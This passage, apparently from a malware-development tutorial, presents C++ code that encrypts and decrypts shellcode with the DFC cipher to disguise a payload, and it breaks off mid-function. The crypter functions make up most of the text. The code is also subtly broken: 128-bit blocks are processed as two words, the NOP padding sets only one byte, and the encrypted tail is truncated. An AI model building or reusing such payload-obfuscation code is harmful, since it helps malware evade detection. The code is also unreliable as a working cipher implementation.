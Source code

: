 This function initializes `left` and `right` from the input block. Then for each of the `8 rounds`, applies the `G` function to `left` and `right` with the corresponding round key. Finally, swaps `left` and `right` to complete the Feistel round and update the block.     

The decryption function `dfc_decrypt` mirrors the encryption, but the rounds are applied in reverse order:      

```cpp
// DFC decryption function
void dfc_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
    G(&left, &right, K[i]);
  }

  // final left-right swap
  block[0] = right;
  block[1] = left;
}
```

As usual, `dfc_encrypt_shellcode` prepares shellcode for encryption by applying padding and then encrypting each `128-bit` block:    

```cpp
// function to encrypt shellcode using DFC
void dfc_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    dfc_encrypt(ptr, key);
    ptr += 4;  // move to the next 128-bit block (4 * 32-bit words)
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = { 0x90 };
    memcpy(pad, ptr, remaining);
    dfc_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}
```

This function calls `key_schedule` to initialize round keys. Then encrypts the main shellcode in `128-bit` blocks. And applies padding if the shellcode length is not a multiple of the block size.      

The next one is decryption logic:    

```cpp
// function to decrypt shellcode using DFC
void dfc_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    dfc_decrypt(ptr, key);
    ptr += 4;
  }
  // handle remaining bytes by padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = { 0x90 };
    memcpy(pad, ptr, remaining);
    dfc_decrypt((uint32_t*)pad, key);
```